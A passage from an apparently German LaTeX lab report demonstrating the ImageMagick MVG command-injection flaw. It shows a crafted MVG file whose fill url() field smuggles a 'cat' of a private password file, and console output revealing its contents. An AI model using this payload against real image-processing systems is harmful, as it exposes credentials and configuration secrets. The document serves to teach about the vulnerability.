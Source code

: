 \newpage
\subsection{Zweites Beispiel: Auslesen einer geheimen Datei}\label{subsec:zweites-beispiel:-auslesen-einer-geheimen-datei}

Das erste Beispiel hat das Problem gut gezeigt, allerdings nicht die problematische Auswirkung der Sicherheitslücke.
Im nächsten Beispiel soll der Inhalt einer privaten Passwort-Datei angezeigt werden.
Vergleichbar ist dies mit einer Config-Datei, in der beispielsweise Zugangsdaten zu einer Datenbank hinterlegt sind.\\

Hierfür wird folgende Datei erstellt und befüllt:

\begin{lstlisting}[language=Bash, caption=Beispiel 2,label={lst:bsp2}]
> vim test2.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|cat "/home/max/secretFile)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Nach dem ausführen, erscheint in der Console der Inhalt der secretFile.

\begin{lstlisting}[language=Bash, caption=Beispiel 2 - Identify,label={lst:bsp2identify}]
> identify test2.mvg
MY_SECRET_PASSWORD
identify: unrecognized color `https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|cat "SECRET_FILE' @ warning/color.c/GetColorCompliance/1046.
identify: no decode delegate for this image format `HTTPS' @ error/constitute.c/ReadImage/535.
exploit.mvg MVG 640x480 640x480+0+0 16-bit sRGB 153B 0.000u 0:00.000
identify: non-conforming drawing primitive definition `fill' @ error/draw.c/DrawImage/3169.
root@vm-its:~/install/6.8.0/code/case2#
\end{lstlisting}
\vspace{5mm}
